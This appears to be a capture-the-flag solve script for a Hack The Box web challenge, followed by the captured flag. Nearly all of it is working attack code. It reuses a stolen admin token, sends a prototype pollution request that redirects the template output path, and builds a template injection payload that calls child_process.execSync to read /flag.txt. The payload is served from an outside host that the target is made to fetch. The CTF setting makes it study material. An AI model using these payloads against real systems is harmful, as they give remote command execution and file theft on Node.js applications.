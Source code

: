 ```python
data = wait()
stop()
admin_token = data['auth']
print("admin_token", admin_token)

# prototype pollution
print(s.put(f"{target}/api/bounties/{b['id']}", json={
    "__proto__": {"output": "/app/views/index.html"},
    "description": "hello"
}).text)
# template injection payload
payload = """
<h1>hello</h1>
{{7*7}}
<br>
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /flag.txt')")()}}
"""
stop = serve_file(payload.encode(), 1337, "text/html")
print(s.post(f"{target}/api/transmit", json={"url": f"https://1337.yun.ng"}).text)
stop()
print()
print(s.get(target).text)
```

```flag
HTB{f1nd1ng_0d4y_15_345Y_r1gh7!!?_0ebb1f7993d6e89e4c315e745aeb6483}
```